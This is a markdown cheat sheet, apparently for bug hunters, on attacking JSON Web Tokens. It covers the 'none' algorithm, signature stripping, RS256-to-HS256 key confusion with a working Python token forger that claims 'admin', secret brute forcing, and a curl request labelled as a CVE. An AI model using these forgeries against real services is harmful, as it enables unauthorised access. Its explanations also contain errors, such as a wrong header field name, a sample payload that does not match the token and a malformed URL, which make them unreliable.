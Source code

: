 # Hacking Json Web Tokens

### What is JWT (Json Web Token)

After Login we get a session ID. Then the server checks that session id and which user contains it.
Then provides data by fetching from database

Now a days modern architectures are changed. Theere are multiple web servers managed by a 
single load balancer. So what if one clinet got his session id from server A
and the next request was sent to server B. Server won't be able to identify that user.
That's why JWT was intrduced.

Instead of fetching all data from database we can store it in user's local storage.
With a expiration time using JWT. It is signed with server signature so that user can't change the data inside the token without knowing the secret key.


### How JWT Works
- User Logged In 
- Now Server Will Fetch User's Data From Databse
- Then Server Creates A Secure JWT Token. And Assigns To The User.
- Now From The Client Side The Entire Data Will Be Transferred By Authorization Header to the server
- It is transferred in Base64 Encoded Format

## JWT Build Algorithm

It is a Json Format Based Token Which Contains 3 Parts. 
Encoded in base 64 Separated by .
- Header
- Payload
- Signature

Ex : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

Header : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```python
base64enc[{
"algo":"HS256",
"typ":"JWT"
}]
```
- alg - which algorithm is used to create the signature Ex : HS256,RS256,PS256

Payload : eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
```python
base64enc[{
"firstname:"sss",
"lastname":"tmss",
"userid":"234"
}] 
```

Signature : SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```python
HMACSHA256{
base64enc(header).base64enc(payload).secret(key)
}
```
- Request Recieved To Server 
```json
jwt : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
- Server Took Payload and header 
- Created A Hash Using Secret Key
- Verfied If Recieved Secret Key Is The Same What He assigned to user when he logged in
### Seccurity Conserns In JWT

- Confidential Data Stored In JWT
- No Encryption Used In Transport Layer /On Wireshark 
- JWT Hijacking If Stored In Cookie
- Algo = None // Don't Validate The Signature
- Secret Key Bruteforcing


### Bugs
1 - None Algorith Attack
Change algo to none 
```python
{
  "alg": "None",
  "typ": "JWT"
}
{
  "alg": None,
  "typ": "JWT"
}
```
And try to perform action
Change algo to none + Remove All Data from Signature field
```python
{
  "alg": "None",
  "typ": "JWT"
}
# Remove Entire Signature Part Or Leave It Blank
```
2 - Algo Change
RSA256 - Uses public key to verify token if we have that public key exposed we might be able to do this
Create own HS256 Signed JWT With Exposed public key
now The Server will Think The public Key is secret key and logs you in
```python
### JWT Token Generater
import hmac
import hashlib
import base64

#Paste the file with the key 
file=open('public.pem')

key = file.read()

#Paste your header and payload here
header = '{"alg":"HS256"}'
payload = '{"name":"admin"}'

#Creating encoded header
encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

#Creating encoded payload
encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

#Concatenating header and payload
token = (encodedHeader + "." + encodedPayload)

#Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"),token.encode('utf-8'),hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(token + "." + sig)
```
How we found .pem in real senario. We find in leaking through jwk.json
```python
https://{yourDomain}/.well-known/jwks.json
```
or waybackurl's jwk.json file or .pem url

3 - Change Signature section complete 
Or Leave it blank

4 BruteForce HS256 
[jwtbrute](https://github.com/jmaxxz/jwtbrute)

## CVE-2023-30845
```bash
curl http:example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' \ 
-H 'Content-Type: application/json' --data '{"username":"xyz"}'
```
### EXPLOITS
- None Algorithm
- Weak Secret
- Key Confusion
- Kid Parameter Injection
- JKU Parameter Injection
